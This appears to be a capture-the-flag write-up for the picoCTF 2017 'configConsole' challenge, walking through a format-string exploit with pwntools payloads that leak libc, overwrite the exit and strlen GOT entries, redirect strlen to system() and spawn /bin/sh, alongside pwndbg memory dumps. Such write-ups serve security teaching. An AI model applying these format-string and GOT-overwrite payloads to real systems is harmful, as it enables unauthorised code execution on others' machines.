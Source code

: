 # Level 3 - configConsole

```
Config Console
In order to configure the login messsage for all the users on the system, you've been given access to a configuration console. 
See if you can get a shell on shell2017.picoctf.com:47232.

HINTS

You can either see where libc is or modify the execution. 
Is there a way to get the vulnerability to run twice so that you can do both?
There's a place in libc that will give you a shell as soon as you jump to it. Try looking for execve.
```

The vulnerable piece of code is here:
```C
void set_exit_message(char *message) {
    if (!message) {
        printf("No message chosen\n");
        exit(1);
    }
    printf("Exit message set!\n");
    printf(message);   //<---------------------------HERE

    append_command('e', message);
    exit(0);
}
```
This is obviously a FSB. But there is a call to exit(0) right afterwards, so how can we get around this?

I did this by leaking a libc address and updating the GOT entry for exit() in one statement:
```python
  # Set the exit message, since that has the vulnerable printf()
  # First print out a leaked address to use. Then update write to GOT
  # to update the lower 2Bytes of the exit() address with something 
  # that doesn't do anything. Thereby just returning instead of exiting
  payload = 'e'
  payload += '_______'
  payload += p64(0x4141414141414141)
  payload += ' %25$p%{}c%19$hn '.format(int(0xb45-14))
  payload += 'AAAAA'
  payload += p64(0x601258)
  print r.sendline(payload)
```
We need to use the libc leak to find the base LIBC address.

The pointer on the stack that points to libc at stack location 19:
```asm
Break at *set_exit_message+61
pwndbg> telescope 48
00:0000│ rsp    0x7ffeaa6ed7b0 ◂— 0x0
01:0008│        0x7ffeaa6ed7b8 —▸ 0x7ffeaa6ed801 ◂— 0x3832257024353225 ('%25$p%28')
02:0010│ rbp    0x7ffeaa6ed7c0 —▸ 0x7ffeaa6edc00 —▸ 0x7ffeaa6edc20 ◂— 0x0
03:0018│        0x7ffeaa6ed7c8 —▸ 0x400aa6 (loop+233) ◂— jmp    0x400ace
04:0020│        0x7ffeaa6ed7d0 —▸ 0x7ffeaa6ed900 —▸ 0x7fe6650dbc58 ◂— pop    rsi
05:0028│        0x7ffeaa6ed7d8 —▸ 0x7ffeaa6ed7f0 ◂— 0x5f5f5f5f5f5f5f65 ('e_______')
... ↓
07:0038│        0x7ffeaa6ed7e8 —▸ 0x7ffeaa6ed801 ◂— 0x3832257024353225 ('%25$p%28')
08:0040│        0x7ffeaa6ed7f0 ◂— 0x5f5f5f5f5f5f5f65 ('e_______')
09:0048│        0x7ffeaa6ed7f8 ◂— u'AAAAAAAA'
0a:0050│ rdi-1  0x7ffeaa6ed800 ◂— 0x3225702435322500
0b:0058│        0x7ffeaa6ed808 ◂— 0x2439312563313738 ('871c%19$')
0c:0060│        0x7ffeaa6ed810 ◂— 0x4141414141206e68 ('hn AAAAA')
0d:0068│        0x7ffeaa6ed818 —▸ 0x601258 (exit@got.plt) —▸ 0x400736 (exit@plt+6) ◂— push   0xa /* u'h\n' */
0e:0070│        0x7ffeaa6ed820 ◂— 0x10000000a /* u'\n' */
0f:0078│        0x7ffeaa6ed828 ◂— 0x1000008a2
10:0080│        0x7ffeaa6ed830 ◂— 0x100010000
11:0088│        0x7ffeaa6ed838 —▸ 0x7fe665695db0 —▸ 0x7fe665476796 ◂— pop    r15 /* u'GLIBC_2.2.5' */
12:0090│        0x7ffeaa6ed840 —▸ 0x7ffeaa6ed990 ◂— 0x0
13:0098│        0x7ffeaa6ed848 —▸ 0x7fe66547ec1c (check_match+300) ◂— test   eax, eax
14:00a0│        0x7ffeaa6ed850 —▸ 0x7ffeaa6eda50 ◂— 0x0
15:00a8│        0x7ffeaa6ed858 ◂— 0x42a5a955
16:00b0│        0x7ffeaa6ed860 ◂— 0x2
17:00b8│        0x7ffeaa6ed868 ◂— 0x3
18:00c0│        0x7ffeaa6ed870 —▸ 0x7fe665695a68 —▸ 0x7fe6656981a8 ◂— 0x0
```
This is pointer we leaked `13:0098│        0x7ffeaa6ed848 —▸ 0x7fe66547ec1c (check_match+300) ◂— test   eax, eax`

Now we check the memory map:
```asm
pwndbg> vmmap 
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
          0x400000           0x401000 r-xp     1000 0      /home/code/code/pico2017/l3_configConsole/console
          0x601000           0x602000 rw-p     1000 1000   /home/code/code/pico2017/l3_configConsole/console
         0x1296000          0x12b7000 rw-p    21000 0      [heap]
    0x7fe6650cb000     0x7fe66526c000 r-xp   1a1000 0      /home/code/code/pico2017/l3_configConsole/libc.so.6.remote
    0x7fe66526c000     0x7fe66546c000 ---p   200000 1a1000 /home/code/code/pico2017/l3_configConsole/libc.so.6.remote
    0x7fe66546c000     0x7fe665470000 r--p     4000 1a1000 /home/code/code/pico2017/l3_configConsole/libc.so.6.remote
    0x7fe665470000     0x7fe665472000 rw-p     2000 1a5000 /home/code/code/pico2017/l3_configConsole/libc.so.6.remote
    0x7fe665472000     0x7fe665476000 rw-p     4000 0      
    0x7fe665476000     0x7fe665496000 r-xp    20000 0      /lib/x86_64-linux-gnu/ld-2.19.so
    0x7fe66568f000     0x7fe665696000 rw-p     7000 0      
    0x7fe665696000     0x7fe665697000 r--p     1000 20000  /lib/x86_64-linux-gnu/ld-2.19.so
    0x7fe665697000     0x7fe665698000 rw-p     1000 21000  /lib/x86_64-linux-gnu/ld-2.19.so
    0x7fe665698000     0x7fe665699000 rw-p     1000 0      
    0x7ffeaa6cd000     0x7ffeaa6ee000 rw-p    21000 0      [stack]
    0x7ffeaa7d0000     0x7ffeaa7d2000 r-xp     2000 0      [vdso]
    0x7ffeaa7d2000     0x7ffeaa7d4000 r--p     2000 0      [vvar]
0xffffffffff600000 0xffffffffff601000 r-xp     1000 0      [vsyscall]
```
Now it's simple math. `0x7fe66547ec1c - 0x7fe6650cb000 = 0x3b3c1c`. It should be noted that I ran the application on a Debian system as close to the server setup as possible and PRELOADED the remote version of LIBC so that I could test with the exact version used on the server. This gives us an offset that I can always use to substract from the leaked value and get the base libc value. 

Using the base libc value, we can use pwnlib builtin functionality to calculate the address of the `system()` function:
```python
  # Calculate libc base address
  r.recvuntil('0x')
  data = r.recvuntil(' ')
  leak = int(data,16)
  print hex(leak)
  libc_base = leak - LIBC_OFFSET
  print hex(libc_base)
  libc.address = libc_base
  print 'libc system: ' + hex(libc.symbols['system'])
  addr1 = libc.symbols['system'] & 0xFFFF
  addr2 = (libc.symbols['system'] >> 16) &0xFFFF
  addr3 = (libc.symbols['system'] >> 32) &0xFFFF
```

If we break at `b *set_exit_message+61` and investigate the memory values we see:

Before printf is called: `0x601258 (exit@got.plt) —▸ 0x400736 (exit@plt+6)`
After printf is called:  `0x601258 (exit@got.plt) —▸ 0x400b45 (main+114)`

So whenever exit() is called it will jump back into main+114 instead.

So now we have two things:
* Libc leaked address 
* Ability to do more calls to the vulnerable printf

The hint says that there is a place in libc that we can jump to that will give you a shell. 
That's nice and all, but is very libc binary specific and doesn't work for all libc libraries. 
Let's do it in a more robust way.

Next, we want to find a function that will take a pointer, preferably to a string we control.
```C
void set_prompt(char *prompt) {
    if (!prompt) {
        printf("No prompt chosen\n");
        exit(1);
    }
    if (strlen(prompt) > 10) {                //<------------ This looks perfect
        printf("Prompt too long\n");
        exit(1);
    }
    printf("Login prompt set to: %10s\n", prompt);

    append_command('p', prompt);
    exit(0);
}
```
Great, and `strlen()` is only used here, so we're safe to update that with multiple writes
```python
  #Start overwriting the GOT entry for strlen()
  #update it with the address of system()
  wait_for_prompt(r)
  payload  = 'e '
  payload += '%{}c%17$hn '.format(int(addr1))
  payload += 'A'*(8)
  payload += p64(0x601210)

  print r.sendline(payload)

  payload  = 'e '
  payload += '%{}c%18$hn '.format(int(addr2))
  payload += 'A'*(8+8)
  payload += p64(0x601210+2)

  print r.sendline(payload)

  payload  = 'e '
  payload += '%{}c%19$hn '.format(int(addr3))
  payload += 'A'*(8+8+8)
  payload += p64(0x601210+4)

  print r.sendline(payload)
```

Now at this point, if we look at the GOT entry for strlen() we have:
`0x601210 (strlen@got.plt) —▸ 0x7fb0701b3490 (system)`
Perfect. Now we just have to pass the right parameter to `system()`

```python
  # strlen() in GOT is now overwritten
  # since prompt calls strlen on string passed
  # we can input string directly here
  print r.sendline('p /bin/sh')
  print "You should now have shell"
  
  # Drop to interactive console
  r.interactive()
```

Full exploit code in the [exploit.py](exploit.py) file.

